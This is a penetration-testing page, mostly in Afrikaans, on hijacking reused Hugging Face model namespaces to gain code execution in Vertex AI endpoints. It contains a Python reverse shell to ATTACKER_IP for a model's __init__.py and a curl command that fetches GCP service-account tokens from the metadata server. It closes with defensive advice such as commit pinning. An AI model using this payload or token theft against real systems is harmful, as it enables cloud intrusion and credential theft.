 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Senario

- Vertex AI Model Garden maak die direkte ontplooiing van baie Hugging Face (HF) models moontlik.
- HF model identifiers are Author/ModelName. As 'n author/org op HF verwyder word, kan dieselfde author-naam deur enigiemand weer geregistreer word. Attackers kan dan 'n repo met dieselfde ModelName op die legacy path skep.
- Pipelines, SDKs, or cloud catalogs wat slegs per naam haal (no pinning/integrity) sal die attacker-controlled repo trek. Wanneer die model ontplooi word, kan loader code vanaf daardie repo binne die Vertex AI endpoint-container uitgevoer word, wat RCE met die endpoint se permissies oplewer.

Twee algemene takeover-gevalle op HF:
- Ownership deletion: Ou pad 404 totdat iemand die author weer registreer en dieselfde ModelName publiseer.
- Ownership transfer: HF issue 307 redirects vanaf die ou Author/ModelName na die nuwe author. As die ou author later verwyder en deur 'n attacker herregistreer word, word die redirect-ketting gebreek en die attacker se repo bedien by die legacy path.

## Identifisering van herbruikbare namespaces (HF)

- Ou author verwyder: die bladsy vir die author gee 404 terug; die model pad mag 404 teruggee totdat takeover.
- Transferred models: die ou model pad issue 307 na die nuwe owner terwyl die ou author bestaan. As die ou author later verwyder en weer geregistreer word, sal die legacy path na die attacker se repo oplos.

Vinnige kontroles met curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## End-to-end aanvalsvloei teen Vertex AI

1) Ontdek herbruikbare model namespaces wat Model Garden as deployable gelys:
- Vind HF-modelle in Vertex AI Model Garden wat steeds as “verified deployable” vertoon.
- Verifieer op HF of die oorspronklike author uitgevee is, of die model oorgedra is en die ou author later verwyder is.

2) Herregistreer die uitgevee author op HF en skep dieselfde ModelName weer.

3) Publiseer 'n kwaadwillige repo. Sluit kode in wat by die model se laai uitgevoer word. Voorbeelde wat algemeen tydens HF model load uitgevoer word:
- Side effects in __init__.py of the repo
- Aangepaste modeling_*.py of processing code wat deur config/auto_map verwys word
- Kodepade wat trust_remote_code=True in Transformers pipelines vereis

4) 'n Vertex AI deployment van die legacy Author/ModelName trek nou die attacker repo. Die loader word binne die Vertex AI endpoint container uitgevoer.

5) Die payload vestig toegang vanaf die endpoint-omgewing (RCE) met die endpoint se permissies.

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Aantekeninge
- In die werklike lewe verskil loaders. Baie Vertex AI HF integrations kloon en importeer repo modules wat in die model se config verwys word (bv. auto_map), wat code execution kan trigger. Sommige gebruiksgevalle vereis trust_remote_code=True.
- Die endpoint hardloop tipies in ’n toegewyde container met beperkte omvang, maar dit is ’n geldige aanvanklike foothold vir data-toegang en laterale beweging in GCP.

## Post-Exploitation Wenke (Vertex AI Endpoint)

Sodra code binne die endpoint container loop, oorweeg:
- Enumereer environment variables en metadata vir credentials/tokens
- Toegang tot aangehegte storage of mounted model artifacts
- Interageer met Google APIs via service account identity (Document AI, Storage, Pub/Sub, etc.)
- Persistensie in die model artifact indien die platform die repo weer herlaai

Enumereer instance metadata indien toeganklik (container-afhanklik):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Verdedigende riglyne vir Vertex AI-gebruikers

- Pin modelle per commit in HF loaders om stille vervanging te voorkom:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Spieël geverifieerde HF-modelle na 'n betroubare interne artefakstoor/registrasie en ontplooi van daar.
- Skandeer voortdurend codebases en configs vir hard-gekodeerde Author/ModelName wat verwyder of oorgedra is; werk na nuwe namespaces of pin per commit.
- In Model Garden, verifieer modelherkoms en die bestaan van die skrywer voordat ontplooiing plaasvind.

## Herkenningsheuristieke (HTTP)

- Verwyderde skrywer: skrywersbladsy 404; erfenis modelpad 404 tot oorname.
- Oorgedra model: erfenispad 307 na nuwe skrywer terwyl die ou skrywer nog bestaan; as die ou skrywer later verwyder en weer geregistreer word, dien die erfenispad aanvallerinhoud.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Kruisverwysings

- Sien breër metodologie- en voorsieningskettingnotas:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Verwysings

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
